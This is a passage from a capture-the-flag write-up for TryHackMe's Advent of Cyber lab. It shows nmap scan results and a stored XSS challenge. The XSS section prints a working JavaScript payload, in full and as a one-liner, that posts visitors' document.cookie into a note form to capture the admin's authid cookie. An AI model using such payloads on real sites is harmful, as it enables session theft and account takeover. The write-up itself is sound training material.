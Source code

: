 ```bash
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.95 seconds
```

### 1 - What is the admin's authid cookie value?
For this challenge we have a stored XSS vulnerability. The plan of attack is to inject a payload script that will post all user's cookies to the form, then when the admin user visits, the cookie will be posted onto the form. The payload will look like this written out:

```HTML
<script>
let req2 = new XMLHttpRequest();
req2.open('POST', 'home');
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(['note=' + document.cookie]);
</script>
```

Of course we will need to send this into the form as a one liner, so this is the actual payload:
```HTML
<script>let req2 = new XMLHttpRequest();req2.open('POST', 'home');req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');req2.send(['note=' + document.cookie]);</script>
```

Once entered we will see the admin cookie after some time:

![cookies](https://user-images.githubusercontent.com/32188816/82994651-bd329480-9fbf-11ea-8315-89ff3187f91f.png)


## Task 24 -- [Day 19] Commands
```
export IP=10.10.229.88
```

Initial nmap scan:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/commands$ nmap -sC -sV -Pn -n -oN nmap/initial $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-27 02:18 MDT
Nmap scan report for 10.10.229.88
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 83:86:ab:3c:f1:3f:4c:c1:83:b9:55:95:f5:d3:4e:c6 (RSA)
|   256 f7:f7:d6:88:22:d4:52:c4:52:e9:d7:37:45:03:17:a8 (ECDSA)
|_  256 06:89:b7:28:d8:bf:d5:4a:f9:e1:3d:fd:9d:2b:f0:06 (ED25519)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
3000/tcp open  http    Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.99 seconds
```
